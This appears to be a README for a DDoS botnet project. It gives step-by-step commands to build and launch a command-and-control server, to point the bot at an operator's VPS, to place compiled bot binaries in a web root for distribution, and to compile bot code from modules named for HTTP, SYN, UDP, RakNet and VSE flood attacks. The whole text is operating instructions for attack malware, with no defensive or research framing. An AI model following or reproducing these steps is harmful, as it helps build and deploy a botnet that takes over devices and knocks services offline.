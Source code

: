 # How to compile cnc?
-------------------------
- Run this:
sh buildcnc.sh
-------------------------

- And run with

-------------------------
screen ./server <botport> <threads> <cncport>
example: screen ./server 1338 10 1337
-------------------------


# How to compile and run bot
- You should change change ip in bot/main.c to your vps ip and bot port screened already
- Run: sh legacybotbuilder.sh and bins will be put into /var/www/html
- Payload: gcc -o bot checksum.c daemon.c http_attack.c \
    raknet_attack.c socket_attack.c syn_attack.c udp_attack.c \
    vse_attack.c main.c -Wall
